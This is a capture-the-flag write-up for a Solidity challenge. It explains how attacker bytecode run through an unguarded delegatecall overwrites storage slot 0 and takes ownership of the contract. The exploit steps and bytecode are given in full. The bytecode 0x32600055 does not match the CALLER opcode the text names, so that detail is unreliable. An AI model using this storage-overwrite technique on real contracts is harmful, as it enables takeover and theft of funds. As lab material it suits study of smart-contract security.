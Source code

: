 # Counter

## Introduction
The smart contract is rather simple but focuses on how you can store change the owner of the address by using simple assembly opcode.

This is the source code
```solidity
pragma solidity ^0.8.13;

contract Deployer {
    constructor(bytes memory code) { assembly { return (add(code, 0x20), mload(code)) } }
}
contract SmartCounter{
    address public owner;
    address public target;
    bool flag=false;
    constructor(address owner_){
        owner=owner_;
    }
    function create(bytes memory code) public{
        require(code.length<=24);
        target=address(new Deployer(code));
    }

    function A_delegateccall(bytes memory data) public{
        (bool success,bytes memory returnData)=target.delegatecall(data);
        require(owner==msg.sender);
        flag=true;
    }
    function isSolved() public view returns(bool){
        return flag;
    }
}
```

## Code Breakdown

**contract Deployer**

The deployer contract has a simple constructor that stores byte code into memory using this 
```solidity
constructor(bytes memory code) { assembly { return (add(code, 0x20), mload(code)) } }
```

Essentially, it stores the byte codes and return the starting memory address (0x20) as the first parameter and the length of the array as the second parameter.
```solidity
constructor(bytes memory code) {
    assembly {
        // Add 0x20 to the starting memory address of the code array
        // to skip the length prefix and get the first byte of the array
        let start := add(code, 0x20)

        // Load the length of the code array into memory
        let length := mload(code)

        // Return the code array as a bytes32 value
        return(start, length)
    }
}
```

**create(bytes memory code)**

It takes in any arbitrary bytes with a maximum length of 24. Next, it is stored into the contract ``Deployer`` and the address of that contract is stored in ``target``.

**A_delegateccall(bytes memory data)**

It takes in any arbitrary bytes and makes a low-level function call using ``target.delegatecall(data)``. Essentially, the function uses ``target`` to execute the ``data``.

## Hints
By default, Solidity stores a contract's state variables starting at ***slot0***. Therefore, the variable ``owner`` is stored at slot0. 
Now that we analysed the functions, here's a breakdown on what we should do.

1) Using solidity opcode, create a set of instruction to store attacker address into ***slot0***.

2) Using the ``create`` function to store the set of instructions into ``Deployer`` contract.

3) Call ``A_delegateccall`` function to execute the set of instructions and change attacker to owner

## Solutions
No attacker contract is required for this challenge. 

This is the set of instructions required to change owner of the contract. This store the address of the immediate caller of the current contract into slot0.
``` 
sstore(0x0, caller())
```

Convert the code above into opcode
```
CALLER       // Pushes the address of the immediate caller of the current contract onto the stack
PUSH1 0x00   // Pushes the storage slot number (0x00) onto the stack
SSTORE       // Stores the value on top of the stack (the original sender's address) in the specified storage slot
```

Convert the opcode int EVM binary and you'll get ``0x32600055``

Call the ``create`` function and chuck those binary into it.

![Create Function](./images/counter_1.png)


Once that is complete, send any arbitrary bytes into ``A_delegateccall``.

![A_delegatecall](./images/counter_2.png)


Once that is complete, the attacker will be the owner now.